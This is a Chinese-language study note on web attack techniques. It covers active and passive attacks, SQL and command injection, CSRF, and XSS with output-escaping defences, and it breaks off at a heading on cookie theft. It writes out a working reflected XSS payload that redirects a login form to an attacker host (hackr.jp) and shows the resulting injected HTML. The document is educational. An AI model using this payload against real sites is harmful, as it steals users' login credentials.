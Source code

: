 ## web的攻击技术

互联网上的攻击大都将web站点作为目标，具体有哪些手段，会造成什么样的影响呢；

### 1 针对web的攻击技术

应用http协议的服务器和客户端，以及运行在服务器上的web应用作为攻击目标；

1. http不具备必要的安全功能

现在web网站都会使用会话管理加密处理等安全性方面的功能，而http协议本身不具备这些；
（安全壳协议（SSH）是一个加密的网络协议，用于在不安全的网络上安全地操作网络服务。其最显著的应用是远程登录和命令行执行）

2. 在客户端即可篡改请求
在http请求报文内加载攻击代码，就能发起对web应用的攻击；通过url查询字段或表单/http首部/Cookie等途径把攻击代码传入，若这时web应用存在安全漏洞，那内部信息就会遭到篡改，或者被攻击者拿到管理权限；

3 针对web应用的攻击模式

* 主动攻击：攻击者通过直接访问web应用，把攻击代码传入的模式；
* 被动攻击：利用圈套策略执行攻击代码的攻击模式

> 以服务器为目标的主动攻击

具有代表性的攻击是<b>SQL注入攻击和OS命令注入攻击</b>
```
        1执行攻击代码
攻击者---------------------- 服务器
                            \ 2 信息泄密；执行命令等
                             \
                              `-----> DB
```

> 以服务器为目标的被动攻击

具有代表性的是<b>跨站脚本攻击和跨站点请求伪造</b>；

常用的攻击模式如下：
1. 攻击者诱使用户触发已设置好的陷阱，而陷阱会启动发送已嵌入攻击代码的http请求；
2. 当用户不知不觉中招后，用户的的浏览器或者邮件客户端就会触发这个陷阱
3. 中招后的用户浏览器就会把含有攻击代码的http请求发送给作为攻击者目标的web应用，运行攻击代码
4. 执行完攻击代码，存在安全漏洞的web应用会成为攻击者的跳板，可能导致用户所持的Cookie等个人信息被窃取，登陆状态中的用户权限遭到恶意滥用等后果；
```
主要攻击用户的资源和权限
      
              4 执行攻击代码的后果是用户所持的cookie等
                    被盗取/用户权限遭恶意滥用
        -------------------------------------------------》 
 用户                                                        攻击代码服务器
  ^    《------------------------------------------------
   \               3 用户的浏览器运行攻击代码
    \
     \ 2 用户的浏览器触发事先已设好陷阱的http请求 
      \_______________________________________ 攻击者（在web页面或邮件内设置陷阱）
          1 陷阱诱导

```

利用被动攻击 可以利用用户的身份攻击企业内部网络

### 2 因输出值转义不完全引发的安全漏洞

实施web应用安全对策可大致分为以下两部分：

> 客户端验证

保留客户端验证只是为了尽早的辨识输入错误，起到提高ui体验的作用，

> web应用端（服务端）验证
 
  * 输入值验证：通常是指检查是否是符合系统业务逻辑的数值或检查字符编码等预防对策
  * 输出值转义：从数据库或文件系统/html/邮件等输出web应用处理的数据之际，针对输出做值转义处理是一项至关重要的安全策略，当输出值转义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损害；
  
  
1. 跨站脚本攻击（Cross-Site Scripting Xss）

是指通过存在安全漏洞的web网站注册用户的浏览器内运行非法的html标签或者js代码进行的一种攻击；
影响如下：

* 利用虚假输入表单骗取用户个人信息
* 利用脚本窃取用户的cookie值，被害者在不知情的情况下，帮助攻击者发生恶意请求
* 显示伪造的文章或图片

> 跨站脚本攻击案例

a: 在动态生成html处发生，以编辑个人信息为例子：

```
正常情况下：
姓名：________
邮箱：________
简介：________

    确认修改

在确认后将编辑的内容正常展示，<b>异常情况下</b>但是当输入的姓名带有html标签或者利用js会造成更严重的后果
比如将姓名输入为：<s>显示的内容将会带有下划线</s>

这里虽然不会造成太严重的后果，但是利用js可以

```

b: XSS是攻击者利用预先设置的陷阱触发的被动攻击

当网站通过地址栏中的URI的查询字段指定ID，即相当于在表单内自动填写字符串的功能；而在这个地方，隐藏着可执行跨站脚本攻击的漏洞；

```
http://example.js/login?ID=yama

某登陆网站：
ID: yama
PW:_____

攻击者会据此创建下面这段嵌入恶意代码的url；隐藏植入事先准备好的欺诈邮件中或者web页面内；诱使用户去点击该url；

http://example.js/login?ID="><script>var+f=document.getElementById("login"); +f.action="http://hackr.jp/pwget";+f.method=>"get";</script><span+s="
浏览器打开该uri后，直观感觉没有发生任何变化；但是设置好的脚本已经开发运行了；当用户输入id和pw后就会直接发送到攻击者的网站（即hackr.jp），导致个人登陆信息被窃取；
两种方式请求是对应的html源代码如下：
```
```
<div class="logo">
  <img src="/img/logo.png" alt="某网站">
</div>
<form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">
    ID  <input type="text" name="ID" value="yama">
  </div>
</form>

<!-- 被嵌入攻击代码后 -->
<div class="logo">
  <img src="/img/logo.png" alt="某网站">
</div>
<form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">
    ID  <input type="text" name="ID" value=""><script>var f=document.getElementById("login"); f.action="http://hackr.jp/pwget"; f.method="get";</script><span s="" />
  </div>
</form>
```

> 对用户cookie的窃取攻击






























  









